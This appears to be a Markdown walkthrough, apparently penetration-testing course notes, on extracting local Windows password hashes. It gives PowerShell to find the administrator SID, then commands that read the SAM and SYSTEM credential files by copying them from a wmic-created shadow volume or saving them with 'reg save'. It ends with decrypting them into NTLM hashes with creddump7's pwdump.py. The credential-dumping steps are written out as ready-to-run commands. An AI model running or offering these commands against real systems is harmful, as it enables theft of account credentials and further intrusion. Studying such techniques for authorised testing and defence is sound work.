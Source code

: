 ## Intro
Windows can authenticate local user accounts as well as those belonging to a domain, which are stored within Active Directory.

Local Windows credentials are stored in the [_Security Account Manager_ (SAM)](https://en.wikipedia.org/wiki/Security_Account_Manager) database as password hashes using the [NTLM](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) hashing format, which is based on the [_MD4_](https://en.wikipedia.org/wiki/MD4) algorithm.

To get the SID of the local administrator we can follow this process:
1. Use powershell to use environment variable($env) to get the local computername.
2. Use it with the [Win32_UserAccount](https://docs.microsoft.com/en-us/windows/win32/cimwin32prov/win32-useraccount) class.
3. Pair it with _ComputerName_ and _Domain_ methods.

```Powershell
$env:computername
[wmi] "Win32_userAccount.Domain='client',Name='Administrator'"
```
This will reveal the SID of the local administrator.

## Grabbing The SAM File
The SAM is located at C:\Windows\System32\config\SAM, but the SYSTEM process has an exclusive lock on it, preventing us from reading or copying it even from an administrative command prompt
However, There are a couple of workarounds.

**Volume Shadow Copy Server**
The Volume shadow copy server can create a snapshot or "shadow volume" of the local hard drive with [vssadmin]. 

**WMIC**
We execute this option through WMIC launched from an administrative command prompt.

We’ll launch wmic, specify the shadowcopy class, create a new shadow volume and specify the source drive with "Volume='C:\'". This will create a snapshot of the C drive.
```Powershell
wmic shadowcopy call create Volume='C:\'
```

We verify that a shadow volume is created with:
```cmd
vssadmin list shadows
```

We can finally copy the SAM database from it using the source path:
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\offsec.corp1\Downloads\sam
```

We will reuse the same process to copy the SYSTEM file as well for decryption:
```cmd
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\offsec.corp1\Downloads\system
```

**HKLM**
Other than this, We can also obtain a copy of the SAM database and SYSTEM files from the registry in the HKLM\sam and HKLM\system hives, respectively. Administrative permissions are required to read and copy.

We use _reg save_ command to save the contents to hard disk:
```cmd
reg save HKLM\sam C:\users\offsec.corp1\Downloads\sam
reg save HKLM\system C:\users\offsec.corp1\Downloads\system
```

## Decryption
Now that we've extracted the SAM and SYSTEM files, we must decrypt them.
This can be done using _mimikatz_ or [_Creddump7_](https://github.com/CiscoCXSecurity/creddump7)
We use CredDump7 with the following command to dump the Administrator/user hashes:
```sh
python pwdump.py /home/kali/system /home/kali/sam
```

